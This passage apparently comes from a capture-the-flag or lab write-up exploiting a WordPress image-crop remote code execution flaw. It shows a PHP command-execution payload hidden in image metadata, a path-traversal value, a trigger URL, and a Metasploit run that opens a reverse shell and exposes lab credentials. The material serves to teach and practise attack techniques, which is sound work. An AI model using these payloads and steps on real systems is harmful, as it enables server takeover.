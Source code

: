     - The image contains a PHP payload hidden in its metadata (e.g., using `exiftool`):

		```bash
		<?=`$_GET[0]`?>
		```
        
        This payload allows the attacker to execute commands via the URL.
        
2. **Manipulate Image Metadata**:
    
    - WordPress stores the image's path in a metadata field called `_wp_attached_file`.
        
    - The attacker changes this field to include a **path traversal** sequence:
        
		```bash
		2023/10/gd.jpg?/../../../../themes/<theme_name>/rahali
		```
        
        This tricks WordPress into saving the image in the theme folder (`wp-content/themes/<theme_name>/rahali`), which is accessible via the web.
        
3. **Trigger the Payload**:
    
    - When the image is accessed via the web, the PHP payload is executed.
        
    - For example, accessing:

		```bash
        http://<target>/wp-content/themes/<theme_name>/rahali?0=id
		```        
        
        will execute the `id` command on the server.

I will use the `metasploit` module for convenience.

```bash
❯ msfconsole
msf6 > use exploit/multi/http/wp_crop_rce
msf6 exploit(multi/http/wp_crop_rce) > set RHOSTS 10.10.155.37
msf6 exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
msf6 exploit(multi/http/wp_crop_rce) > set PASSWORD *********
msf6 exploit(multi/http/wp_crop_rce) > set LHOST 10.14.99.119
msf6 exploit(multi/http/wp_crop_rce) > run
[*] Started reverse TCP handler on 10.14.99.119:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (40004 bytes) to 10.10.95.6
[*] Attempting to clean up files...
[*] Meterpreter session 1 opened (10.14.99.119:4444 -> 10.10.95.6:47980) at 2025-03-09 15:10:20 +0100

meterpreter > 
```
